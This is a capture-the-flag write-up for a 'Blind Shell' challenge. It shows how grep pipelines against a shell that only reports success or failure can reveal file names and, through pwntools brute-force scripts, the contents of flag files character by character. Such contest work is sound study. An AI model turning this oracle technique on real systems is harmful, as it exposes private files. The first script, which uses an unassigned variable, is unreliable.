 # Blind Shell

- Category: misc
- Points: 345
- Solved by: 4cul, 01baf, crypt3d4ta

## Problem

It's simple enough, either you've succeeded or you've failed.
Connect here: nc tasks.kksctf.ru 30010

## Writeup

In this challenge we are dealing with a particular shell.
When we execute a command we have a fixed output which consists of
"Success!" in case the execution is successful and "Failed!"
on the other hand.

For example:

```
$cat
Success!
$c
Failed!
```

The idea is to find files in the current directory, using the terminal output to our advantage.
With the aid of ls, wc, and grep, it’s possible to see inside the current directory the number of files, and also their names

To see how much files are in the current directory we’ve run this piece of commands:

```
$ ls | wc -l | grep 1
Failed!
$ ls | wc -l | grep 2
Failed!
$ ls | wc -l | grep 3
Success!
```

And to see the name of each file:<br>
First we’ve looked with what letter each filename begins:

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^v | wc -l | grep 1
Failed!
$ ls | grep ^m | wc -l | grep 1
Success!
$ ls | grep ^s | wc -l | grep 1
Success!
```

So there are 3 items into the directory, respectively beginning with ’f’, ‘m’ and ‘s’.<br>
Second, using this information, we’ve run the following commands, in order to know their full names: 

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^fl | wc -l | grep 1
Success!
$ ls | grep ^fla | wc -l | grep 1
Success!
$ ls | grep ^flag\.t | wc -l | grep 1
Success!
$ ls | grep ^flag\.txt | wc -l | grep 1
Success!
```

The obtained files were:<br>
    -flag.txt: 	text file<br>
    -server.py: 	python script<br>
    -maybehere: 	directory

The same procedure is used to read from flag.txt:

```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat flag.txt | grep ^L")
conn.recvline()

read = 'L'

while True:
    for i in alphabet:
        test = read + i
        print(test)
        conn.sendline("cat flag.txt | grep " + test)
        if chr(r[2]) == 'S':
            read = test
            break


print("Here's your content: ", read)
```
After launching the script we obtain:

```
Look_around,maybe_here
```

The suspect was that inside maybehere directory there was something interesting; 
so we’ve tried to change the current directory into ./maybehere, but we’ve noticed 
that ‘cd’ command actually doesn’t change directory - in fact, we’ve tried to type ‘cd /’, 
but the current working directory remains the same, even if it returns “Success!”.
Again, thanks to the superpowers of ls, cat and grep, we’ve looked that into 
/maybehere there was the file flag.txt; so we’ve run the same script in order to get its content,
and we’ve finally discovered the flag

Script:


```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat maybehere/flag.txt | grep kks{")
conn.recvline()

flag = 'kks{'

while True:
    for i in alphabet:
        test = flag + i
        print(test)
        conn.sendline("cat maybehere/flag.txt | grep " + test)
        r = conn.recvline()
        print(r)
        if chr(r[2]) == 'S':
            flag = test
            break

    if flag[-1] == '}':
        break

print("Here's your flag: ", flag)
```

### Flag
```kks{Bl1nD_sH311_s2cKs_b4t_Y0U_ar3_amaz19g}```
